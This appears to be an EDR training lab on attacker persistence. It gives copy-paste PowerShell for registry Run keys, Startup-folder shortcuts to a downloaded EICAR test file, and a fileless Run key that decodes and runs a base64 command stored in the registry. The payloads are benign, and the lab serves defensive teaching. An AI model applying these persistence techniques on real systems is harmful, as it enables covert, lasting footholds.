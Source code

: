 ```yaml
---
Title: ATT&CK - Persistence Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- www.eicar.org/download/eicar.com.txt
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

In Lab 5, we will demonstrate some popular places to place malware references that will cause their malware to keep coming back. Autostart locations like Registry Run Keys or files in User Startup Folders will cause that program to execute when a user logs in or the system reboots. Each autostart may have it’s own trigger for automated execution

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Persistence phase of an attack
2. Demonstate some popular persistence methods and locations
   

## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Instructions


For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Registry Run Key Foothold
> *The most popular persistence location is to place a reference to your malware file or command in the registry's Run Keys. All files referenced in a run key will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate how this might look if the malware was not detected as malware by loading up our calculator. After that we'll try reference some malware using an EICAR file (fake malware that will flag on AV)

Add a path reference to the **Registry Run Keys**. 
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Registry Run key with calc.exe
	Write-Host "Adding T1547.001 - Registry Run Key Foothold w/ simulated undetectable malware (calc)"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /t REG_SZ /F /D "C:\Windows\System32\calc.exe -i $n"
	#REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /f
	```

### 2. Autostart Folder Shortcut
> *Another popular persistence location is to simply place a shortcut to the malware in the Windows autostart folder. All files referenced here will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate this by creating a shortcut to an EICAR file (test malware that will flag on all AV engines) and placing it in either the system startup folder or user startup folder:
>
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\*.lnk
> OR
> $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\*.lnk


Add a shortcut to malware in the **Autostart Folder**
- MITRE ATT&CK Technique: [ATT&CK T1547.009 - Persistence - Autostart Folder](https://attack.mitre.org/techniques/T1547/009)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.009 - Malicious Shortcut Link Persistence with detectable malware (EICAR File)"
	Write-Host "Downloading IECAR file..."
	Invoke-WebRequest -Uri "https://www.eicar.org/download/eicar.com.txt" -OutFile "$env:USERPROFILE\EICAR.exe"
	$cmd = @'
		$Target = "$env:USERPROFILE\EICAR.exe"
		$ShortcutLocation = "$home\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil_calc.lnk"
		$WScriptShell = New-Object -ComObject WScript.Shell
		$Create = $WScriptShell.CreateShortcut($ShortcutLocation)
		$Create.TargetPath = $Target
		$Create.Save()
		$ShortcutLocation = "$home\Desktop\evil_calc.lnk"
		$WScriptShell = New-Object -ComObject WScript.Shell
		$Create = $WScriptShell.CreateShortcut($ShortcutLocation)
		$Create.TargetPath = $Target
		$Create.Save()
	'@
	$cmd += "`nStart-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```


### 3. Fileless Runkey Persistence
> *A more advanced form of persistence won't reference a file on disk, it will hide encoded and obfuscated code in the registry somewhere and run the command using the same persistence method.*
>
> *We will demonstrate this by encoding a simple command and placing that content in a random registry location. Then we will have the runkeys start powershell and execute that content. Any scan of the runkeys will just show a powershell command.*


Create a fileless reference in the **Registry Run Keys**
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.001 - Registry Run Key w/ Fileless Powershell Command"
	$Cmd = "Write-Host -ForegroundColor Green 'Mess with the Best, Die like the rest!'; Start-Sleep -m $n"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($Cmd))
	# Add encoded Command to random registry location
	REG ADD "HKEY_CURRENT_USER\Software\Classes\RedTeamTest" /v RT /t REG_SZ /d $EncodedCommand /f
	
	# Add powershell reference to registry run key that will have it grab and execute the encoded command hidden in the registry
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team Fileless" /t REG_SZ /F /D "powershell.exe -nop -command '$cmd'"
	#Remove-Item HKCU:\Software\Classes\RedTeamTest -Force -ErrorAction Ignore
	```

- Go ahead and run the command hidden in the registry now:
	```Powershell
	# Run the command from the registry on demand:
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```
	s> If you are successful, powershell will display a message in red.
